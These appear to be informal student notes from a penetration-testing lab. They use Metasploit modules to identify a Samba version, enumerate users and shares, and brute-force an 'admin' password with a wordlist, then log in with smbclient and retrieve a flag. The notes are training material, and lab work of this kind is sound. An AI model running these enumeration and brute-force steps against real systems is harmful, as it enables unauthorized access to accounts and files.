

server message block it works on LAN
port is 445 or 139 on older version
SAMBA is linux implementation of SMB in windows
we can use auxiliary modules to enumerat SMB Versions
Lab Started:
Add the RHOSTS in global variables
setg RHOSTS <taget_ip>
search type:auxiliary
we will go to the smb version for exploitation
use auxiliary/scanner/smb/smb_version
show options
it must have the RHOSTS as we have added
run
Host couldnot be identified but it was revealed that samba 4.3.11-ubuntu is revealed
use this version and if it is exploitable
so we search the users
smb_enumusr
use auxiliary/scanner/smb/smb_enumusers
RHOSTS are set
hit run
it will show the response SAMBA-RECON [users ]
after users enumeration we can check for the shares so using the shares enumeration
use auxiliary/scanner/smb/smb_enumshares
show options reveal that there are showFiles options is set to false
so run command
Set SHOWFILES true
then run
it will give the shares done by specific users
so if we recall we have a user admin in smb_enumusers and we can brute force it and can obtain the password
use the use auxiliary/scanner/smb/smb_login
show options reveal the RHOSTS that is set, port is 445 and the SMBUser is our interested part
so set SMBUser admin
set pass_file /usr/share/metasploit-framework/data/wordlists/unix_passwords/.txt
now run
it reveals that admin username has password as "password"
for further exploitation exit the metasploit framework
run command
smbclient -L \\\\\<target_ip>\\ -U admin
it will ask the password and give it the password as password
now access these listed shares
use command
smbclient \\\\<target_ip>//public -U admin
add the password
it will give you the access and
use ls command and it will list down all directories
in cd secret is the flag
get flag
cat flag 03ddb97933e716f5057a18632badb3b4
a1157f23d040fb4bc6f9a7277de65bf7
lab Notes
